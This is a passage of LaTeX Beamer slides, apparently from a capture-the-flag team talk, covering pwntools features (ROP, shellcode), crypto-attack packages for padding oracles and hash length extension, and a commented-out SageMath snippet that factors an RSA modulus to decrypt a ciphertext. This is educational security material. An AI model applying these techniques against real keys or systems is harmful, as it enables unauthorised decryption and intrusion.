    
\includegraphics[width=\textwidth]{../images/pwntools-shellcraft.png}
  \end{center}
\end{frame}
}

\begin{frame}
  {pwntools/binjitsu}

  \begin{itemize}
    \item I/O abstraction (called Tubes)
    \item ELF parser/info
    \item Return Oriented Programming (ROP)
    \item Shellcode
      \begin{itemize}
        \item plug'n'pwn
        \item shellcode builder
      \end{itemize}
    \item Binary data ``parsing''
    \item \ldots
  \end{itemize}
\end{frame}



%\begin{frame}[plain]

%  {\Huge Cryptography}
%\end{frame}

% sagemath - crypto all the things

\subsection{Crypto all the way down}

{
\usebackgroundtemplate{\includegraphics[width=\paperwidth]{./images/zippy/cryptobugs/cryptobug10.jpg}}
\begin{frame}[fragile,plain]

  %\pgfsetfillopacity{0.5}
  %\setbeamercolor{boxcolor}{fg=white,bg=black}
  %\begin{beamercolorbox}[sep=1em,wd=\textwidth]{boxcolor}
  %\pgfsetfillopacity{1}
  %\end{beamercolorbox}

  \vspace{19em}

  \hspace*{\fill}{\Huge Cryptography}

	%{Crypto? Sage, Pen and Paper to the rescue!}

%  \pgfsetfillopacity{0.5}
%  \setbeamercolor{boxcolor}{fg=white,bg=black}
%  \begin{beamercolorbox}[sep=0.5em,wd=10cm]{boxcolor}
%  	\pgfsetfillopacity{1}
%	  \begin{lstlisting}[language=python]
%		n1 = 0xD564B978F9D233504958EED8B7 ...
%		...
%
%		factors1 = factor(n1)
%		p1 = list(factors1)[0][0]
%		q1 = list(factors1)[1][0]
%
%		e = 65537
%		c1 = 0x0caf5db76313c9b32a473fcdd91 ...
%		...
%		phi1 = (p1 - 1) * (q1 -1)
%		...
%		bezout1 = xgcd(e, phi1)
%		...
%		d1 = Integer(mod(bezout1[1], phi1))
%		...
%		m1 = power_mod(c1,d1,n1)
%		...
%	  \end{lstlisting}
%	\end{beamercolorbox}
\end{frame}
}

\begin{frame}
  {Crypto Tools}

  \begin{itemize}
    \item Pen \& Paper
  \end{itemize}
  \begin{itemize}
    \item \texttt{\href{http://www.sagemath.org/}{sage}}
      \begin{itemize}
        \item CAS \& python
      \end{itemize}
    \item packages implementing attacks, e.g.
      \begin{itemize}
        \item \href{http://mwielgoszewski.github.io/python-paddingoracle/}
          {python-paddingoracle}
        \item \href{https://github.com/bwall/HashPump}{hashpumpy} (hash length extension attack)
        \item \ldots
      \end{itemize}
  \end{itemize}
\end{frame}

% pen & paper - never underestimate

%\begin{frame}
%
%  \todo[inline]{something, something about pen \& paper}
%\end{frame}


\section{Outro}

\begin{frame}
  {Learn to Improvise}

  \begin{itemize}
    \item Premature optimization* is the root of all evil!
      \begin{itemize}
        \item * also commenting code
        \item * also clean code
      \end{itemize}
    \item (only true for attack \&\&  \emph{during} CTFs!)
    \item If it works once, \ldots it works!
    \item Code-reuse between different CTFs!
      \begin{itemize}
        \item Post-CTF code cleanup would be good \ldots
      \end{itemize}
  \end{itemize}

\end{frame}

\begin{frame}[plain]
	\begin{center}
		\huge A fool with a tool is still a fool!
	\end{center}
\end{frame}


{
\usebackgroundtemplate{\includegraphics[height=\paperheight]{./images/zippy/bugs/buggybugs-1.jpg}}
\begin{frame}[plain]

  \begin{center}
  	\pgfsetfillopacity{0.5}
  	\setbeamercolor{boxcolor}{fg=white,bg=black}
  	\begin{beamercolorbox}[sep=0.5em,wd=10cm]{boxcolor}
  		\pgfsetfillopacity{1}
	    \color{white}
	    {\huge \url{https://hack.more.systems}}
	\end{beamercolorbox}
  \end{center}

  \vspace{3em}


  \pgfsetfillopacity{0.5}
  \setbeamercolor{boxcolor}{fg=white,bg=black}
  \begin{beamercolorbox}[sep=1em,wd=5cm]{boxcolor}
  \pgfsetfillopacity{1}
    Thanks to

    \begin{itemize}
      \item all LosFuzzys members
      \item \url{tuflowgraphy.at}
      \item realraum
      \item IAIK
    \end{itemize}
  \end{beamercolorbox}

\end{frame}
}

\begin{frame}
  {Writeups of Used Examples}

  \begin{itemize}
    \item \url{https://hack.more.systems/writeups}
  \end{itemize}

  \begin{itemize}
    \item
      \href{http://losfuzzys.github.io/writeup/2015/12/07/9447ctf-premonition/}
      {9447ctf: premonition (web)}
    \item \href{https://losfuzzys.github.io/writeup/2016/04/04/ndhquals2016-matriochka/}
      {NDH quals 2016: matriochka (reversing)}
    \item \href{https://losfuzzys.github.io/writeup/2016/04/04/ndhquals2016-secure-file-reader/}
      {NDH quals 2016: secure file reader (pwn)}
    %\item \href{http://losfuzzys.github.io/writeup/2016/02/20/iwctf2016-oh-bob/}
    %  {Internetwache CTF 2016: Oh Bob! (crypto 60)}
  \end{itemize}
  
  \vspace{3em}
  
  don't be eve!

\end{frame}
